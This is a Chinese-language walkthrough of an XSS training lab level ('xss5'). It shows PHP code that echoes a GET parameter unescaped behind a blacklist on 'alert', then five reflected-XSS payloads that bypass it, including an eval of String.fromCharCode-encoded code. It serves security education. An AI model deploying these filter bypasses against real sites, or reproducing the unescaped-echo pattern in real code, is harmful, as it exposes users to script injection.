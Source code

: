 # xss5

进入example5.php

源码
```php
if (preg_match('/alert/i', $_GET['name'])){
    die('error');
}
<?php echo $_GET['name'];?>
```

这一次就直接把alert拉进黑名单了
不过只是对alert拉黑名单而已
还可以使用很多的函数进行执行

```javascript
document.write
console.log
confirm
prompt
```
payload1
```js
example5.php?name=<script>document.write('hello xss')</script>
```
![img](../../../image/xss/69601158270.png)

payloade2
```js
example5.php?name=<script>console.log('hello xss')</script>
```
![img](../../../image/xss/2365403153406.png)
![img](../../../image/xss/5032603140086.png)

payload3
```js
example5.php?name=<script>confirm('hello xss')</script>
```
![img](../../../image/xss/3945705130616.png)

payload4
```js
example5.php?name=<script>prompt('hello xss')</script>
```
![img](../../../image/xss/59107133120.png)

这些都是可以进行注入的

还有一种解法是对alert进行编码String.fromCharCode编码，
在hackbar里很容易的去编码

![img](../../../image/xss/1957212142067.png)
编码之后得到
```js
String.fromCharCode(97,108,101,114,116,40,39,104,101,108,108,111,32,120,115,115,39,41)
```
然后使用[eval](https://m.runoob.com/jsref/jsref-eval.html)进行执行
payload5
```js
example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,104,101,108,108,111,32,120,115,115,39,41))</script>
```
![img](../../../image/xss/4203915134952.png)

过关~~